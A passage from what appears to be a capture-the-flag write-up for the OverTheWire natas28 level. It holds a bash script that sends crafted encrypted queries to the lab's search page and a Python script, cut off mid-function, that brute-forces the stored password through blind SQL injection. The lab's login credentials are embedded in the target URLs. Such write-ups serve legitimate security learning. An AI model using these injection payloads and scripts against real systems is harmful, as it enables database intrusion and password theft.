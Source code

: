 # URLdecode, base64 decode, print result from position 49 skipping the header, encode back into base64 
query2=$(urldecode "$query" | base64 -d | tail -c +49 | base64 -w0) 
echo "Encrypted Query: $query2"

output=$(curl -i \
    http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org/search.php \
    -H "User-Agent: curl" \
    -d "query=$query2" )

echo "Result: $output"
{% endhighlight %}

The script takes the SQL query we want and returns the output from &#8220;search.php&#8221;. No intermediary steps needed =).

I then experimented with SQL commands to figure out a way to extract the password, and settled on using `‘select * from jokes where ascii(substring((select password from users) from %d for 1))=%d #’ % (i, ord(c))`in a loop. That will test each character one at a time and if we guess it right, then jokes will be sent back in the response, otherwise no joke.

There&#8217;s just no way you&#8217;re going to want to do this manually, so here&#8217;s my python script for it:

{% highlight python %}
#!/usr/bin/python3.7
#
# main execution script for solving natas28 on OverTheWire.org

import binascii
import urllib as ul
import requests
import time

# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Final Password
password = ''
# Our target URL
target = "http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org"
headers = {
  'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
}

def urlencode(data):
  return ul.parse.quote_plus(data)


def urldecode(data):
  return ul.parse.unquote_plus(data)


def send_query(query):
  blocksize = 16
  remainder = len(query) % blocksize

  # format query string with correct amount of characters
  f_query = '.' * 10 + str(query) + ' ' * (blocksize - remainder)
